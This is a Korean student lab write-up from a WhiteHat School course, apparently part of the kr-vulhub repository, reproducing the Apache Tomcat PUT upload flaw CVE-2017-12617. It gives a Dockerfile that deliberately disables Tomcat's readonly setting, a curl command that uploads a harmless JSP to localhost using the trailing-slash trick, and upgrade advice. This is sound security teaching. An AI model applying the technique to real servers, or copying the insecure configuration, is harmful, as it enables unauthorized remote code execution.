




# Apache Tomcat PUT Upload 취약점 (CVE-2017-12617)

> **PoC for Apache Tomcat Arbitrary Write-file Vulnerability via PUT Method**  
> **Tested on Apache Tomcat 7.0.81 (Windows 환경)**

## 화이트햇 스쿨 3기 35반 편정혜\_9212

## 전체 PoC 흐름 요약

1. 취약 환경 구축 (Dockerfile, docker-compose 이용)
2. curl을 이용해 JSP 파일(shell.jsp) 업로드
3. 브라우저를 통해 shell.jsp 실행 및 결과 확인

## 취약점 정보

- **CVE ID**: CVE-2017-12617
- **취약점 설명**: Apache Tomcat 7.0.0 ~ 7.0.81 (Windows 환경)에서 HTTP PUT 메서드를 이용해 인증 없이 JSP 파일 업로드 및 실행이 가능합니다.
  PUT 메서드는 서버에 파일을 직접 업로드할 수 있도록 허용하는 HTTP 메서드입니다.
  Tomcat 서버에서 PUT 메서드가 잘못 설정되어 있을 경우, 공격자는 인증 없이 웹 쉘(JSP 파일 등)을 업로드하고 실행할 수 있어 원격 코드 실행(RCE)로 이어질 수 있습니다.
  JSP 파일 업로드할 때 URL 끝에 슬래시(/) 붙여야 정상적으로 업로드가 됩니다. (/shell.jsp/)

  해당 취약점은 현재 [https://vulhub.org/](https://vulhub.org/)에 존재하는 취약점 CVE-2017-12615[https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615)과 차이점이 존재합니다.
  둘 다 JSP 업로드 -> 웹쉘 실행과 같은 시나리오이지만, CVE-2017-12617은 Windows만 타겟으로 하며, 업로드 시 URL 끝에 슬래시를 붙여야 합니다.

|   항목    |                     CVE-2017-12615                     |                                  CVE-2017-12617                                  |
| :-------: | :----------------------------------------------------: | :------------------------------------------------------------------------------: |
| 운영체제  |             모든 운영체제 (Linux, Windows)             |                                   Windows 전용                                   |
| 취약 내용 | HTTP PUT 메서드 활성화 시 JSP 파일 업로드 및 실행 가능 |         Windows 환경에서 HTTP PUT 메서드로 JSP 파일 업로드 및 실행 가능          |
| PoC 방식  |       JSP 파일 업로드 후 직접 접근 (/shell.jsp)        | JSP 파일 업로드할 때 URL 끝에 슬래시(/) 붙여야 정상적으로 업로드됨 (/shell.jsp/) |
| 발생 조건 |            PUT 메서드 허용 + 기본 설정 문제            |                 PUT 메서드 허용 + Windows 파일 시스템 특성 문제                  |
|   영향    |         인증 없이 JSP 파일 업로드 및 RCE 가능          |             인증 없이 JSP 파일 업로드 및 RCE 가능 (단, Windows 한정)             |

- **공격 방식**: HTTP PUT 메서드를 이용하여 JSP 파일 업로드 후 실행
- **영향**: 원격 코드 실행 (RCE)
- **공식 설명 링크**: [https://nvd.nist.gov/vuln/detail/CVE-2017-12617](https://nvd.nist.gov/vuln/detail/CVE-2017-12617)

## 환경 구축

- Docker
- docker-compose
- 테스트 브라우저: Chrome
- 터미널: CMD (또는 PowerShell)
- 운영체제: Windows 11

### Dockerfile

취약 대상인 Apache Tomcat 7.0.81 을 이용하였습니다.

```dockerfile
FROM tomcat:7.0.81-jre8

RUN cd /usr/local/tomcat/conf \
    && LINE=$(nl -ba web.xml | grep '<load-on-startup>1' | head -n 1 | awk '{print $1}') \
    && ADDON="<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>" \
    && sed -i "${LINE}i\\${ADDON}" web.xml
```

### docker-compose.yml

```docker-compose.yml
version: '3'
services:
  tomcat:
    build: .
    ports:
      - "8080:8080"
```

## 실행

### 1. 취약 환경 레포 클론

kr-vulhub 저장소를 클론하여 CVE-2017-12617로 이동합니다.

`git clone https://github.com/gunh0/kr-vulhub.git`

[https://github.com/gunh0/kr-vulhub](https://github.com/gunh0/kr-vulhub)

### 2. 컨테이너 빌드 및 실행

Docker를 이용하여 Tomcat 서버를 빌드 및 실행합니다.

`docker-compose up --build`



이후 http://localhost:8080으로 접속이 가능합니다.



### 3. shell.jsp 파일 업로드

Tomcat 서버의 PUT 메서드를 이용하여 JSP 파일을 업로드합니다.

`curl -v -X PUT "http://localhost:8080/shell.jsp/" --data-binary "<% out.println(\"Hello JSP!\"); %>"`

업로드가 정상적으로 완료되면 HTTP/1.1 201 Created 또는 204 No Content 응답을 받습니다.



### 4. 브라우저로 JSP 파일 실행

브라우저의 주소창에 다음 URL을 입력하여 업로드 된 파일을 실행합니다.

`http://localhost:8080/shell.jsp`

업로드된 shell.jsp에 브라우저로 접속하면 다음과 같은 결과를 볼 수 있습니다.

**Hello JSP!**



### 5. 주의사항

- curl 명령어 사용 시 끝에 슬래시(`/`)를 붙이지 않으면 업로드에 실패할 수 있습니다.
- Docker 컨테이너가 정상적으로 기동되지 않는 경우, 포트 충돌이나 Dockerfile 오류를 확인하세요.

### 6. 대응 방안

- Tomcat 9.x 사용자 → Apache Tomcat 9.0.1 버전 이상으로 업그레이드
- Tomcat 8.x 사용자 → Apache Tomcat 8.0.47 또는 8.5.23 버전 이상으로 업그레이드
- Tomcat 7.x 사용자 → Apache Tomcat 7.0.82 버전 이상으로 업그레이드

## 결론

이번 실습에서는 Apache Tomcat 7.0.81 버전의 PUT 메서드 취약점(CVE-2017-12617)을 이용하여 인증 없이 JSP 파일을 업로드하고 실행하는 과정을 재현하였습니다.
Docker를 이용해 취약 환경을 구축하였으며, curl 명령어를 통해 shell.jsp 파일을 업로드하고 브라우저에서 직접 "Hello JSP!" 문구가 출력되는 것을 확인했습니다.
이를 통해 Tomcat 서버의 설정 미비가 심각한 보안 위협(RCE)으로 이어질 수 있음을 실습을 통해 검증할 수 있었습니다.

---

### Github repository

- 35반 편정혜 github 레포: [https://github.com/rainyhye/kr-vulhub/tree/main/Tomcat/CVE-2017-12617](https://github.com/rainyhye/kr-vulhub/tree/main/Tomcat/CVE-2017-12617)
- 35반 편정혜 Pull Request 링크 : [https://github.com/gunh0/kr-vulhub/pull/285](https://github.com/gunh0/kr-vulhub/pull/285)
